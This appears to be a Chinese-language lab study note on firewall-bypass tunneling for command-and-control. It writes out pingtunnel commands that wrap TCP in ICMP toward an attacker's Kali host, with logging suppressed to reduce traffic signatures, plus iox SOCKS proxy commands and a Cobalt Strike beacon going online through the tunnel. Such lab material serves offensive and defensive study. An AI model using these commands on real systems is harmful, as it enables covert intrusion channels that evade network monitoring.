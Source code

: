 # 隧道技术 icmp dns

![1732452050196](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942043.png)

出网：看之间是否能通讯

​	c2常见的协议

隧道技术：绕过防火墙，实现通讯能够上线

出网就是出站----防火墙

  配置

将出站规则都开启，执行后面没有上线

![1732461696691](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942044.png)

将出站规则关闭：

![1732461815088](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942045.png)

打开icmp通讯：192.168.139.128为kali地址,与web机在同一个网段------------此时web防火墙入站和出站是开着。这里都是随便ping 只要能互相通信就行

![1732462308609](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942046.png)

关闭icmp协议: 

![1732462439111](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942047.png)
这里的环境复现是：其中kali的ip  192.168.139.128       web :192.168.139.222       192.168.2.11

![1732523729550](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942048.png)
## icmp
  上线  使用工具 pingtunnel

./pingtunnel -type server

工具将本地tcp流量用自己的6666端口流量转发到192.168.139.141:7777 上面（将tcp流量封装成icmp转发）

pingtunnel -type client -l :6666 -s 192.168.139.141 -t 192.168.139.141:7777 -tcp 1 -noprint 1 -nolog 1   后门生成绑定6666，上线监听7777，上线找7777。			这个工具就是封装作用  （ 1 -noprint 1 -nolog 1  就是减少流量特征的，不打印信息）

下面本应该是在webshell页面执行，但为了省事，就直接在目标机web上进行操作：

上传工具pingtunnel，然后在能和目标机通讯的机器上 ，（这里是kali）创建一个监听：

![1732524394790](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942049.png)

执行转发命令-----前面几次没有成功是因为web机的出站icmp没有开：、

![1732525019259](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942050.png)

成功接收到：

![1732524956671](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942051.png)

生成2个监听器：1 、2

![1732525288157](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942052.png)

下面生成exe、要选择stageless的，如果选择（E）上面的那个模式，无法上线（踩坑）：这里exe的监听器为1

![1732526027873](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942053.png)

执行66666.exe则就反射到本地6666来上线，而6666又经过一系列的转发成icmp到7777才出去，2监听器监听7777成功收到web机请求上线。

![1732526222224](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942054.png)

然后用wireshark监听流量发现，web机过来的全部是icmp协议的数据包（http----->icmp封装成功）：

![1732526418330](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942055.png)

隧道一关闭、cs就掉线：

![1732526561513](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942056.png)

### dns

  使用DNS技术实现上线----使用C2自带工具。 关闭icmp通讯出站。打开dns出站规则。这里上线需要一个dns的域名网站来上线dns的exe，这就是dns协议实现上线

关闭icmp出站协议，打开dns协议

![1732526830482](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942058.png)

下面还是本应该在webshell操作。我懒的上线get，就直接在主机上演示：

这里还得需要一个dns的域名。省略这个

### msb

  MSF icmp实现上线。msf的dns过时，已下架。

   smb开放着，利用smb进行通讯，为入站规则

![1732529462918](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942059.png)

可以通过smb来正向连接来获取权限。这里属于横向移动知识点，后期在学

### 内网穿透:

   这里的状况（防火墙策略）是 web机器是只让web进，icmp出。隧道技术就是有一些放的口子（有一些出站的规则），这种一般都是内网穿透。演示一款工具：iox       pingtunnel                                                                                                   2222->4455->5566                   pingtunnel -type client -l 127.0.0.1:2222 -s 192.168.139.128 -t 192.168.139.128:4455 -tcp 1 -noprint 1 -nolog 1 -key 000000           （这里的key是防止别人也连接到你打pingtunnel，所以有一个key）    192.168.139.141为kali   127.0.0.1web机器，因为web机的防火墙策略。所以这里命令就是将web机的2222端口的tcp协议的流量封装成icmp协议给发送到192.168.139.141:4455（kali的4455端口），在kali(攻击机)./pingtunnel -type server -noprint 1 -nolog 1 -key 000000接收目标发过来的icmp流量数据，然后因为是发到自己的4455端口，所以./iox proxy -l 4455 -l 5566  用iox代理工具将4455转至5566端口。在web机上还要建立SockS节点绑定2222端口----相当于创建一个2222端口，他才能将icmp流量数据转发出去：iox.exe proxy -r 127.0.0.1:2222。类似上面的socks端口创建，因为这里目标机的防火墙策略特殊，所以采用这种方法创建socks节点。后面就一样用代理Profiex连接socks，从而实现与目标机通讯。

将web本地2222端口的TCP封装IMCP给能通讯的kali：-----已经将iox和pingtunne上传目标机了

![1732531243372](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942060.png)

接收客户端传递的ICMP：

![1732531600655](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942061.png)

端口转发，创建有socks5协议 ：

![1732531373768](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942062.png)

再在web上开放一个2222端口：

![1732535373473](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942063.png)

最后效果就是在本机能访问到目标主机，之间建立通讯。
